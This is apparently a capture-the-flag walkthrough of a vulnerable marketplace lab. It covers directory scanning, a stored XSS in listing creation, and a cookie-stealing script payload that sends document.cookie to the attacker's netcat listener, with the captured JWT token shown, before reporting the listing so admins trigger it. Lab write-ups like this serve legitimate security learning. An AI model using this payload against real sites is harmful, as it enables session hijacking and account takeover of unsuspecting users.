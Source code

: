 ```
signup                  [Status: 200, Size: 667, Words: 159, Lines: 31]
stylesheets             [Status: 301, Size: 189, Words: 7, Lines: 11]

```

we visit the website (port 80 and 32768 look identical)

meet `jake` and `michael`

signup, then login

we are not authorized to visit `/admin` dir...yet

when trying to create a new listing I tried to enable the upload button from code inspector but no use

the hint said to look around the report option...when you report a listing to admins you get a message back

I tried to check for xss and yup...

when creating a ne listing the most basic checks works with

`<script>alert(1)</script>`

But what do we do with this? 

oh...cookies! took me some time!

there is a `token` cookie that register your session...decoding it with jwt.io is not really helpful

But combined with the XSS vulnerability we can do some `Cookie stealing` and get admin's

Basically we forge a cookie-stealing Reflected Xss payload like...

`<script>new Image().src="http://10.8.226.203:8080/?"+document.cookie;</script>`

It obviously sends the user's cookie to our machine server on specified port (8080 for me)

then start a listener on said port

We use it when creating our new listing...

And get our own cookie

```
└──╼ $nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 33142
GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiZmxvIiwiYWRtaW4iOmZhbHNlLCJpYXQiOjE2NDI4NTIwMTd9.jIodXdkw16d4Hlb3cecsHd3KqHuRuTqvVv7EsWnObzc HTTP/1.1
Host: 10.8.226.203:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: keep-alive
Referer: http://10.10.228.67/item/3
Sec-GPC: 1

```
Now report that listing to admins! 

